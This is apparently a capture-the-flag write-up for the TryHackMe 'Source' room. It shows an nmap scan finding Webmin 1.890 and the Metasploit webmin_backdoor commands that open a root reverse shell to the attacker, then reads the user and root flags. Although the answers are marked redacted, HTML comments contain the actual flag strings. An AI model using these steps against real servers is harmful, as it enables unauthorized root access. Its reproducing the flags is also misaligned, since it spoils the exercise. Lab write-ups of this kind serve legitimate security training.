



> # Source

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [user.txt](#usertxt)
    - [root.txt](#roottxt)

<!-- /TOC -->

## user.txt
Scan the target first, you will see at port 10000 it use Webmin webapp version 1890
```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 01:32 EST
Nmap scan report for 10.10.209.29
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
Search this webapp on [expploitDB](https://www.exploit-db.com/), there's vulnerable `Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)` which available on metasploit
```
use exploit/linux/http/webmin_backdoor
set ssl true
set rhosts IP
set lhost tun0
(default listening port is 4444)
run
```
After running the exploit, we will receive a reverse shell as root<br>
<br>

Read user.txt in /home/dark/user.txt<br>
<br>
<!-- THM{SUPPLY_CHAIN_COMPROMISE} -->
**Answer:** THM{\<redacted>}

## root.txt
As I already have been root user, just read the root flag in /root/root.txt<br>
<br>
<!-- THM{UPDATE_YOUR_INSTALL} -->
**Answer:** THM{\<redacted>}
